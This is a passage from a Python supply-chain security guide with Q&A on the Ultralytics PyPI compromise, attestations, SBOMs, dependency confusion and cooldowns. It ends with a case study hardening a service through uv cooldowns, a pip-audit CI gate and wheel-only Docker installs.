**Q: How did the December 2024 Ultralytics (YOLO) compromise actually happen, and what does it prove about trusted publishing?**
**Short:** A CI script-injection stole Ultralytics' PyPI token, proving trusted publishing only secures the last hop, not the CI pipeline itself.

An attacker embedded shell metacharacters into a pull-request branch name that executed during a
`pull_request_target` GitHub Actions workflow, exfiltrating the project's PyPI upload token; two
malicious releases shipped through the compromised CI pipeline, and the attacker then bypassed CI
entirely and published two more directly with the stolen token, all four carrying an XMRig
cryptominer. At roughly 80 million downloads a month, this reached a huge number of environments.
It proves trusted publishing is not a silver bullet: it removes a long-lived secret from a
workflow, but if the workflow itself is compromised — which is what happened here — an attacker
can still exfiltrate whatever short-lived credential that workflow mints and publish with it
before it expires.

**Q: What does a PEP 740 attestation actually prove, and what does it explicitly NOT prove?**
**Short:** An attestation proves a file's build provenance (which commit, which workflow); it does not prove the code is safe.

It cryptographically binds a distribution file's SHA-256 digest to the exact source commit and
CI workflow run that built it, signed via Sigstore using the same OIDC identity a trusted-
publishing upload already mints. It does not prove the commit's code is free of bugs, malice, or
an upstream compromise — a compromised CI pipeline still produces a validly signed, validly
attested malicious artifact, because the attestation authenticates the *pipeline*, not the code
it ran. PEP 740 itself states it "does not increase (or decrease) trust in the index itself," and
as of this writing neither `pip` nor `uv` reject an unattested package by default — verification
is something a consumer opts into, not an automatic gate.

**Q: What's the practical difference between a vulnerability scanner like `pip-audit` and an SBOM?**
**Short:** An SBOM is an inventory of what you have; a scanner actively matches that inventory against known vulnerabilities.

An SBOM (Software Bill of Materials) is a structured inventory of every dependency in a project —
CycloneDX or SPDX — and by itself blocks nothing and installs nothing; its entire value is
letting you answer "which of our services use package X" in minutes instead of days when a new
CVE breaks. `pip-audit` or `osv-scanner` is the active half: it diffs your installed or locked
versions against a vulnerability database (the PyPA Advisory Database and OSV, in `pip-audit`'s
case) and flags known-vulnerable matches. Neither one catches an undisclosed, actively malicious
package with no CVE filed against it — that gap is what cooldown periods and PyPI's own
quarantine system exist to close instead.

**Q: Why does `pip install --extra-index-url` carry a dependency-confusion risk that a dedicated `--index-url` doesn't?**
**Short:** --extra-index-url searches multiple indexes for the same name, letting the wrong one win by version number.

`--extra-index-url` adds a second index to the search alongside the primary one, and classic
multi-index resolution can select whichever index offers the highest version number for a given
package name — with no concept that one index (your internal one) should be more trusted than
the other (public PyPI) for a given name. This is the exact mechanism Birsan's 2021 research
exploited: publish the internal name publicly at a deliberately high version and win the
comparison. A single `--index-url` pointed only at the trusted source for a given install (or,
in `uv`, an explicit index binding via `tool.uv.sources`) removes the ambiguity instead of hoping
version-number comparison resolves it safely.

**Q: What is the dependency-cooldown pattern (`--exclude-newer` in `uv`), and what does it trade away?**
**Short:** A cooldown refuses to resolve any release published within a recent window, trading immediacy for community-vetted safety.

It limits resolution to distributions uploaded before a cutoff — a fixed timestamp or a rolling
duration like `exclude-newer = "P3D"` — so a brand-new release, whether maliciously published or
simply broken, has had time for community reporting or PyPI's own detection to catch it before
your resolver will ever pick it up. The tradeoff is that it delays legitimate security patches by
the identical window; a cooldown policy needs a documented override path for urgent CVEs rather
than being a blanket rule with no escape hatch, or it ends up shipping vulnerable code for the
same number of days it's blocking malicious code.

**Q: Why does mandatory PyPI 2FA matter for supply-chain security specifically, beyond general account hygiene?**
**Short:** 2FA closes maintainer-account takeover, which is more dangerous than typosquatting because it inherits an existing trust base.

An account takeover lets an attacker publish a malicious release under a name the community
already trusts and has downloaded millions of times — unlike typosquatting, which has to win a
developer's typo, a takeover wins by simply being the real, already-trusted package. PyPI phased
in 2FA from a 2022 hardware-key sponsorship for top-download projects to full mandatory
enforcement for every account on January 1, 2024, specifically to close the password-only
account-compromise path. It does not fully close the risk — a maintainer whose CI-held token or
2FA device is itself compromised is still exposed, which is part of why trusted publishing
(short-lived, scoped tokens instead of long-lived ones) is a complementary control, not a
replacement.

**Q: What is PyPI's Project Quarantine feature and why was permanent removal an insufficient tool before it?**
**Short:** Quarantine hides a suspected-malicious project from installs reversibly, unlike removal which was a one-way, harm-if-wrong decision.

Quarantine lets PyPI administrators mark a suspected-malicious project as hidden from the simple
index — so it cannot be installed — while leaving it recoverable if the report turns out to be a
false positive, unlike outright deletion, which previously was the only tool available and was
difficult to reverse. In active use since August 2024, roughly 140 projects had been quarantined
by the time PyPI documented it in detail that December, and all but one contained confirmed
malware; the single exception (an obfuscation false-positive) was corrected and released from
quarantine, demonstrating exactly the reversibility that made the feature worth building instead
of relying on permanent removal alone.

**Q: What's the practical difference between CycloneDX and SPDX for a team choosing an SBOM format?**
**Short:** CycloneDX optimizes for security tooling and vulnerability matching; SPDX optimizes for license and compliance depth.

CycloneDX's schema is leaner and was built with native vulnerability and VEX support in mind, so
it tends to produce more directly actionable output for a CI pipeline feeding a vulnerability
scanner or a platform like Dependency-Track. SPDX carries deeper license and legal metadata by
default and is usually the format regulators, customers, or compliance audits explicitly name.
A common practical split is generating CycloneDX continuously for internal vulnerability
management and keeping SPDX generation available specifically for legal handoffs and license
audits, rather than trying to pick a single format for both purposes.

**Q: How does the Sigstore-based attestation pipeline get its signing identity, and why can't an attacker forge one?**
**Short:** The signing identity is a short-lived OIDC token minted by the CI provider itself, not a credential the publisher holds.

The identity comes from the same OIDC token flow that powers trusted publishing: GitHub (or
another supported CI provider) mints a short-lived identity token scoped to the exact job that's
running, and Sigstore signs the attestation using that identity rather than a long-lived secret
the maintainer stores anywhere. An attacker cannot forge this token without first compromising
the CI provider's own OIDC issuance or the specific workflow run itself — which is a materially
higher bar than stealing a static `PYPI_TOKEN` out of a leaked secret or a misconfigured log
line, though (as the Ultralytics incident shows) compromising the workflow itself remains
possible and defeats even this control.

**Q: When would you choose an API token over trusted publishing for PyPI, and why keep both configured?**
**Short:** Use an API token when OIDC isn't available or for manual laptop publishes; keep both as complementary, not redundant.

Trusted publishing needs OIDC support from the CI system, so a legacy CI platform without it, or
a maintainer publishing manually from a laptop for a one-off release, still needs a scoped API
token as a fallback path. The two aren't mutually exclusive: a project commonly registers a
trusted publisher for its automated release workflow as the primary path while keeping a scoped,
rotated API token available for the rare manual publish — the goal is minimizing how often a
long-lived credential is the *only* path to publishing, not eliminating it everywhere it might
still be needed.

---

## 13. Best Practices

- **Default to `--only-binary=:all:` for any locked-down install path** (production, privileged
  CI). Maintain a short, explicitly reviewed exception list for the rare package that genuinely
  needs to build from source, rather than allowing silent sdist fallback everywhere.
- **Never hand-edit a hashed lock file.** Regenerate it with the resolver
  (`uv pip compile --generate-hashes`) every time — a single manually-added unhashed line
  silently defeats `--require-hashes` for the whole install.
- **Bind every internal package name to an explicit index**, and mark that index `explicit = true`
  so nothing resolves off it by accident in either direction. Never mix an internal index with
  `--extra-index-url` / `unsafe-best-match` resolution for anything with a matching public
  namespace risk.
- **Adopt trusted publishing (OIDC) for every CI-driven release**, keeping a scoped, rotated API
  token only as the manual/legacy fallback — never as the primary publishing path.
- **Treat a PEP 740 attestation as provenance evidence to record and audit, not an automatic
  install-time gate** — verify what it actually claims (this file, this commit, this workflow)
  rather than treating "it's attested" as a synonym for "it's safe."
- **Run `pip-audit` or `osv-scanner` in CI on every dependency change**, and generate an SBOM
  (CycloneDX for continuous vulnerability workflows, SPDX for compliance handoffs) so a new CVE
  disclosure is a lookup, not a multi-day audit.
- **Apply a short cooldown (`--exclude-newer`, a few days) for unattended/scheduled installs**,
  with a documented override path for urgent security patches — a cooldown that can never be
  bypassed just delays fixes as much as it delays attacks.
- **Verify any AI-suggested dependency name exists and matches its claimed purpose before
  installing it** — slopsquatting specifically targets the gap between "the assistant suggested
  it" and "someone checked it's real."
- **Enable 2FA on every publishing account without exception**, and prefer PyPI Organizations for
  team-owned projects so ownership and access survive any single maintainer's departure or
  account compromise.

---

## 14. Case Study

### Hardening `payment-service`'s Supply Chain After the Ultralytics Incident

**Scenario**: The payment-processing FastAPI service from the parent module's case study
(§14) already has a hash-pinned `requirements.lock` and a trusted-publishing release workflow.
After the December 2024 Ultralytics compromise makes the news, the team's security review asks a
harder question: *if one of our own dependencies were compromised the same way, how would we
know, and how long would the malicious version stay in our production image?*

**Gap analysis against the existing setup**:

| Existing control (from parent module) | What it covers | What it misses |
|---|---|---|
| `uv pip compile --generate-hashes` | Tampered/substituted files | A *legitimately* hashed but newly malicious release |
| Trusted publishing for `payment-service`'s own releases | Their own upload credential | Nothing about a *consumed* dependency's credential |
| `--require-hashes` in the Dockerfile | File integrity at install | No time-based vetting window |

None of the existing controls address "we upgraded to a dependency version that was compromised
an hour after it was published" — that gap is exactly the Ultralytics shape.

**Fix 1 — add a cooldown to the lock-refresh workflow**:

```toml
# pyproject.toml — new addition
[tool.uv]
# Any scheduled or manual dependency upgrade must resolve against
# releases at least 3 days old. A compromised or malicious release has a
# far higher chance of being caught by community reporting, PyPI malware
# scanning, or a CVE filing in that window than in the first hour.
exclude-newer = "P3D"
```

```bash
# Urgent security patch override — documented, requires a second reviewer,
# bypasses the cooldown deliberately and explicitly rather than silently
uv lock --upgrade-package httpx --exclude-newer $(date -u +%Y-%m-%dT%H:%M:%SZ)
```

**Fix 2 — add `pip-audit` as a CI gate, not just a Dependabot PR check**:

```yaml
# .github/workflows/ci.yml — new job
supply-chain-audit:
  runs-on: ubuntu-latest
  steps:
    - uses: actions/checkout@v5
    - run: pip install pip-audit
    - name: Audit locked dependencies
      run: pip-audit --requirement requirements.lock --format cyclonedx-json --output sbom.json
    - name: Upload SBOM as build artifact
      uses: actions/upload-artifact@v4
      with:
        name: sbom
        path: sbom.json
```

Every CI run now produces a current CycloneDX SBOM as a build artifact, and fails the build on
any known vulnerability in the locked graph — closing the "am I affected" lag from days to
minutes the next time a CVE lands against something in `requirements.lock`.

**Fix 3 — enforce wheel-only installs in the Dockerfile (BROKEN → FIXED)**:

```dockerfile
# BROKEN (from the parent module's Dockerfile, §14) — silently allows a
# source build if any transitive dependency lacks a matching wheel
RUN uv pip install --require-hashes -r requirements.lock \
    --python /usr/local/bin/python3 \
    --target /build/deps
```

```dockerfile
# FIX — fail the build instead of silently running an sdist's build backend
RUN uv pip install --require-hashes --only-binary=:all: -r requirements.lock \
    --python /usr/local/bin/python3 \
    --target /build/deps
```

The first CI run after this change fails on two transitive dependencies that had never shipped a
wheel for the target platform — exactly the visibility the team wanted. Both turn out to be
legitimate (a small internal telemetry shim and a pure-Python parser with no reason to lack a
wheel other than an oversight), so the fix is to open an issue against each upstream project
requesting a wheel, and in the interim add them to a narrow, reviewed exception list rather than
reverting the policy for the whole install.

**Outcome**:
- A compromised release now has a minimum 3-day window before it can be silently pulled into a
  scheduled dependency upgrade, matching roughly the response time PyPI's own quarantine system
  has historically needed to act on a credible report.
- Every CI build produces a current SBOM as an artifact, so a future CVE disclosure against any
  dependency is a grep against a stored file, not a fresh audit.
- No sdist build backend can execute arbitrary code inside the production image build stage —
  the two packages that needed an exception are explicitly listed, reviewed, and tracked against
  upstream wheel requests rather than silently tolerated.
- None of these three changes touch the trusted-publishing or hash-pinning controls already in
  place (see [Packaging & Project Tooling](packaging_and_project_tooling.md), §6 and §14) — they
  close a different, earlier part of the same chain: what happens *before* a dependency is
  trusted enough to be locked and hashed in the first place.

See also [Testing with pytest](../testing_with_pytest/testing_with_pytest.md) for adding a smoke
test that runs against the installed wheel-only environment in CI, catching an over-aggressive
`--only-binary=:all:` exception-list gap before it reaches production.
